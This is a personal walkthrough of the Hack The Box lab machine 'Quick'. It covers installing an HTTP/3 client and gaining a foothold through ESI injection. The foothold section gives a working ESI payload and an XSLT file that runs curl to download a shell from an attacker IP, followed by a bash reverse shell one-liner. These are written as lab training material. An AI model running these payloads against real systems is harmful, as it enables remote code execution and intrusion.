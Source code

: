 # Quick (HTTP/3, Symlinks, ESI Injection)

Quick is a hard difficulty Linux machine that features a website running on the  HTTP/3 protocol. Enumeration of the website reveals default credentials. The client portal is found to be vulnerable to ESI (Edge Side Includes) injection. This is used to obtain code execution and gain a foothold. A weak password gives access to a printer console, which permits the addition of new printers. Weak file permissions are exploited to move laterally. Plaintext credentials exposed in a configuration are reused to escalate to root. The official HTB writeup is below:

[Quick.pdf](Quick%20(HTTP%203,%20Symlinks,%20ESI%20Injection)%20b191dc627ddb4687b87c5ba82acd5c1f/Quick.pdf)

## Skills Learned:

- HTTP/3 Protocol
- Using Symlinks
- ESI Injection
- Since the http server is running on a weird port, you should do a full port scan as well as a UDP scan
- Keep in mind that UDP is connectionless so the results aren't always what they seem to be

### Problems I Ran Into

1. **Installing Quiche**
- Since you cannot connect to HTTP/3 via normal browsers like firefox or chrome, you have to use the QUIC protocol
- You can use a client called quiche which can be found [here](https://developers.cloudflare.com/http3/intro/http3-client/)
- To install this client properly you need the correct version of rust and cargo and these can be installed using rustup

```
sudo apt autoremove rustc
sudo apt autoremove cargo
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
// Rustup installs the latest versions of rustc and cargo
// Never run cargo as sudo, it won't allow you anyway 
// You might also want to install cmake if it is not installed already
// Don't clone the quiche repository in a directory owned by root
git clone --recursive https://github.com/cloudflare/quiche.git
cd quiche
cargo build --examples
// you will find the HTTP/3 client in:
cd target/debug/examples 
```

1. **Foothold**
- problem I ran into was getting the shell. the server from the attacker machine is supposed to be a PHP server because that one executes when it is connected to. run this with `sudo php -S 0.0.0.0:80`
- make an empty `xml` file on your attacker machine eg `pwn.xml`
- make the `esi.xsl` on your machine as well (same folder)

```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[curl http://10.10.14.4/shell -o /tmp/shell]]>
</xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- make a bash file called `shell` on your machine (same folder as other two) and put the bash reverse shell one liner:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.6/9001 0>&1
```

- when making the ticket use this code snippet as the message:

```xml
<esi:include src="http://10.10.16.6/pwn.xml" stylesheet="http://10.10.14.4/esi.xsl">
</esi:include>
```

- now run the search ticket query and the bash script will be made on the remote server
- edit the `esi.xsl` script on you machine to run the command that'll run the bash script and spawn a reverse shell.